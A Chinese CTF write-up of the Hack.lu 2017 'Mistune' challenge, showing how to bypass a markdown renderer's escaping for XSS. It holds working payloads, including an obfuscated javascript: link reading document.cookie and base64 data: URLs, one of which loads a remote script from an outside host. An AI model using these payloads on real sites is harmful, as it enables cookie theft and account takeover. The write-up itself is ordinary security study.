 ```yaml
---
title:  HACK.LU CTF 2017 Web  Write-up
subtitle: CTF
time: 2017.10.19 10:00:00
layout: post
catalog: true
tags:
- CTF
- Web
excerpt: Hack.lu CTF Web题解，共勉。

---
```


# HACK.LU CTF 2017 WP



## Mistune

![Markdownxss](https://momomoxiaoxi.com/img/post/hacklu/Markdownxss.png)

这是一道Markdown的XSS题，题目中有一个测试页面用来测试具体输入输出，与此同时admin页面存在提示:

```html
We use mistune.Renderer(escape=True, hard_wrap=True)
The admin will look at your converted Markdown.
The admin will click on links (<a>).
You can check the queue here
```

所以，思路很明确，就是绕过markdown进行xss。

为了方便fuzz，写了一个本地脚本，模仿过滤。

```python
import mistune

renderer = mistune.Renderer(escape=True, hard_wrap=True)
# use this renderer instance
markdown = mistune.Markdown(renderer=renderer)
while True:
    text = raw_input('test Markdown XSS:\n')
    print markdown(text)
```
测试结果如下：

```Html
<> & 会被转义
'"在markdown语法中会被转义
javascript被禁
右括号有影响,一个右括号就当作闭合
text=[a](j    a   v   a   s   c   r   i   p   t:prompt(document.cookie))&test=Test+in+Browser
=>>
 <p><p><a href="j    a   v   a   s   c   r   i   p   t:prompt(document.cookie">a</a>1)2)</p>
</p>


点击base64可以xss
text=[a](data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K)\&test=Test+in+Browser


测试：
[a](data:text/html;base64,PHNjcmlwdCBzcmM9aHR0cHM6Ly94LnNlY2JveC5jbi9iVzhEblE%2bPC9zY3JpcHQ%2b)

```